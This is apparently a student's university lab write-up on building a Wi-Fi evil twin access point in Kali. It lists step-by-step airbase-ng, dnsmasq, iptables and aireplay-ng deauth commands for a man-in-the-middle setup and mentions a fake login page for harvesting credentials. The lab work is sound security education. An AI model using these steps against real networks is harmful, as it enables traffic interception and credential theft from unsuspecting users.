 # Airbase-NG: Evil Twin Attack (Kali VMware)

> CIT 53200 | Lab 4 | Benjamin Rader
> 

# Links Used During Lab

- [https://thecybersecurityman.com/2018/08/11/creating-an-evil-twin-or-fake-access-point-using-aircrack-ng-and-dnsmasq-part-2-the-attack/](https://thecybersecurityman.com/2018/08/11/creating-an-evil-twin-or-fake-access-point-using-aircrack-ng-and-dnsmasq-part-2-the-attack/)
- [https://charlesreid1.com/wiki/Evil_Twin/Setup](https://charlesreid1.com/wiki/Evil_Twin/Setup)
- [https://www.geeksforgeeks.org/evil-twin-in-kali-linux/](https://www.geeksforgeeks.org/evil-twin-in-kali-linux/)
- [https://medium.com/gotta-hack-em-all/kick-any-client-out-of-its-own-wifi-50cd53333b1c](https://medium.com/gotta-hack-em-all/kick-any-client-out-of-its-own-wifi-50cd53333b1c)

# Fake AP Setup

- Make sure you have Kali (kali.org) on VMware workstation player (works better for Wi-Fi pentesting than VirtualBox)

## Locating target network:

- **`apt-get update && apt-get upgrade` - always run this before doing stuff in Kali**
- `iwconfig`
- `airmon-ng start wlan0`
- `airmon-ng check kill`
- **`airodump-ng wlan0mon`**
    
    ![Untitled](Airbase-NG%20Evil%20Twin%20Attack%20(Kali%20VMware)/Untitled.png)
    

## Setting up Fake AP (Evil Twin) with Airbase-ng:

- `airbase-ng -e “WIFI_AP_NAME” -c 11 wlan0mon`
    
    ![Untitled](Airbase-NG%20Evil%20Twin%20Attack%20(Kali%20VMware)/Untitled%201.png)
    

### Setting up Fake AP Interface for MITM

In order to actually MITM connections, we need the victims to be able to reach the internet. We will use `iptables` to set this up. 

- Commands:
    
    ```
    ifconfig at0 up
    ifconfig at0 10.0.0.1 netmask 255.255.255.0
    route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
    iptables -P FORWARD ACCEPT
    iptables -t nat -A POSTROUTING -o wlan0mon -j MASQUERADE
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
    

### Fake AP from Phone’s View

Using “hostapd” - you can add the security scheme and match it to the “good” AP, so that it’s most convincing.

![Screenshot.png](Airbase-NG%20Evil%20Twin%20Attack%20(Kali%20VMware)/Screenshot.png)

## Install & Run dnsmasq:

This is how we will setup our DHCP server.

- **`apt-get install dnsmasq`**
- **`dnsmasq -C Desktop/eviltwin/dnsmasq.conf -d`**
- **`nano /etc/dnsmasq.conf` -** use this to get a feel for the configuration file for the DHCP server.
- `cd Desktop`
- `mkdir eviltwin`
- `nano evil_dnsmasq.conf`
    
    ```
    # Configuration file for dnsmasq.
    interface=at0
    dhcp-range=10.0.0.20,10.0.0.250,255.255.255.0,12h
    dhcp-option=3,10.0.0.1
    dhcp-option=6,10.0.0.1
    server=8.8.8.8
    server=8.8.4.4
    server=64.6.64.6
    server=64.6.65.6
    log-queries
    log-dhcp
    listen-address=127.0.0.1
    ```
    
- `dnsmasq -C Desktop/eviltwin/evil_dnsmasq.conf -d` - start the DHCP server using the evil configuration.
    
    ![Untitled](Airbase-NG%20Evil%20Twin%20Attack%20(Kali%20VMware)/Untitled%202.png)
    

## Increase the Strength of the AP

- You can increase the strength of the access point by changing the power
- **`iwconfig wlan0mon txpower 27` ←** don’t go higher than 27 (or it’s illegal)

<aside>
‼️ LEGAL WARNING:  DON’T GO HIGHER THAN **27** dBm or 500 milliwatts; any higher is illegal in the U.S.

</aside>

## Deauth (kick off) clients from the “good” AP

We need to kick people off of the good AP so that they can use our evil AP 😈

- **`aireplay-ng –-deauth 50 -a *[BSSID of real AP]* wlan0mon` -** sends 50 802.11 deauth frames onto our good AP network.
- HOPE THEY CONNECT to the evil AP
- Isn’t booting off my phone for some reason
    
    ![Untitled](Airbase-NG%20Evil%20Twin%20Attack%20(Kali%20VMware)/Untitled%203.png)
    

## Error: aireplay-ng on wrong channel

![Untitled](Airbase-NG%20Evil%20Twin%20Attack%20(Kali%20VMware)/Untitled%204.png)

### Checked Channels of networks on phone too using “Fing”

![Screenshot_20221112-153332.png](Airbase-NG%20Evil%20Twin%20Attack%20(Kali%20VMware)/Screenshot_20221112-153332.png)

### Change the channel of the card with airmon-ng

- `airmon-ng stop wlan0mon`
- `airmon-ng start wlan0 6`
- or change the channel while it’s on - `iwconfig <interface> channel <channel>`

## Deauth wouldn’t work

I spent a good 6 hours on this, so I’m going to move on and try this next time with different adapters.

Some potential issues that can affect process:

- Kali version
- How the DHCP server is setup
- 5 vs 2.4 GHz?
- Auto reconnect on devices

# Results (Report)

## Problem

- The problem was to create a fake access point
- Doing so requires multiple steps
    - Kali Linux
    - WiFi adapter that can do MONITOR mode in Kali
    - aircrack-ng library installed in Kali
    - a fake DHCP server set up in Kali using a combination of utilities in Kali like
        - iptables, hostapd, dnsmasq, etc.
    - Airbase-ng to actually run the fake AP
    - Way to get client MACs if possible
    - Likely need to be associated with the Wi-fi network to make things easier
    - Aireplay-ng to deauthenticate clients from the good AP, so that they connect to the bad AP
    - Optionally, a fake Wi-fi login to get credentials from people

## Analysis

- This attack will especially not work if you don’t give the clients an internet connection
    
    ![Screenshot_20221112-154259.png](Airbase-NG%20Evil%20Twin%20Attack%20(Kali%20VMware)/Screenshot_20221112-154259.png)
    

## Recommendations

- One way to counter if is to use the setting of “never connect to unfamiliar networks”

## Muddiest point in the lab

- No matter what I tried with aireplay-ng for deauths, it never worked for my network. I even targeted the client by looking at the randomized MAC address it used with the good AP, but to no avail. It also can’t be the adapter because I wasn’t getting those types of errors. It also had nothing to do with the DHCP server. I’m not sure why I couldn’t deauth my phone.
    
    ![Untitled](Airbase-NG%20Evil%20Twin%20Attack%20(Kali%20VMware)/Untitled%205.png)
    
- Also, some of the commands are outdated on lots of websites so things like setting up DHCP, hostapd, dnsmasq, and any other specific utility made for this process sometimes doesn’t work together well with the other tools.
- Deauths was the muddiest part of the lab for me, and I didn’t really have time to try setting up a security scheme or get the routing working for giving clients an actual internet connection.